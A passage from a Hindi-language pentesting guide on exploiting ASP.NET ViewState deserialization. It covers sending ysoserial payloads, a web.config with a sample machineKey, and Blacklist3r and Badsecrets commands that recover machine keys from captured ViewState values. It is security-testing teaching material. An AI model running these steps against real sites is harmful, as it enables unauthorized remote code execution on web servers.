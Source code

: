 डेवलपर ViewState को HTTP अनुरोध का हिस्सा नहीं बनने दे सकते (उपयोगकर्ता को यह कुकी प्राप्त नहीं होगी)।\
कोई यह मान सकता है कि यदि ViewState मौजूद नहीं है, तो उनका कार्यान्वयन ViewState डेसीरियलाइजेशन के साथ किसी भी संभावित सुरक्षा दोषों से सुरक्षित है।\
हालांकि, ऐसा नहीं है। यदि हम अनुरोध शरीर में ViewState पैरामीटर जोड़ते हैं और ysoserial का उपयोग करके बनाए गए हमारे सीरीयलाइज़ किए गए पेलोड को भेजते हैं, तो हम फिर भी कोड क्रियान्वयन हासिल कर सकेंगे जैसा कि मामला 1 में दिखाया गया है।

### परीक्षण मामला: 2 – .Net < 4.5 और EnableViewStateMac=true & ViewStateEncryptionMode=false

**एक विशिष्ट पृष्ठ** के लिए **ViewState MAC सक्षम** करने के लिए हमें एक विशिष्ट aspx फ़ाइल पर निम्नलिखित परिवर्तन करने की आवश्यकता है:
```bash
<%@ Page Language="C#" AutoEventWireup="true" CodeFile="hello.aspx.cs" Inherits="hello" enableViewStateMac="True"%>
```
हम इसे **समग्र** एप्लिकेशन के लिए भी कर सकते हैं इसे निम्नलिखित रूप में **web.config** फ़ाइल पर सेट करके:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<customErrors mode="Off" />
<machineKey validation="SHA1" validationKey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45" />
<pages enableViewStateMac="true" />
</system.web>
</configuration>
```
जैसा कि पैरामीटर MAC सुरक्षित है, इस बार हमें हमला सफलतापूर्वक करने के लिए पहले उपयोग किए गए कुंजी की आवश्यकता है।

आप [**Blacklist3r(AspDotNetWrapper.exe)** ](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper) का उपयोग करके कुंजी को खोजने का प्रयास कर सकते हैं।
```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"

--encrypteddata : __VIEWSTATE parameter value of the target application
--modifier : __VIWESTATEGENERATOR parameter value
```
[**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) एक औजार है जो जाने वाले machineKeys की पहचान कर सकता है। यह Python में लिखा गया है, इसलिए Blacklist3r की तरह यह Windows dependency नहीं है। .NET viewstates के लिए, एक "python blacklist3r" उपयोग करने का सबसे तेज तरीका है।

इसे या तो viewstate और generator के साथ सीधे प्रदान किया जा सकता है:
```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
```
![https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png](https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png)

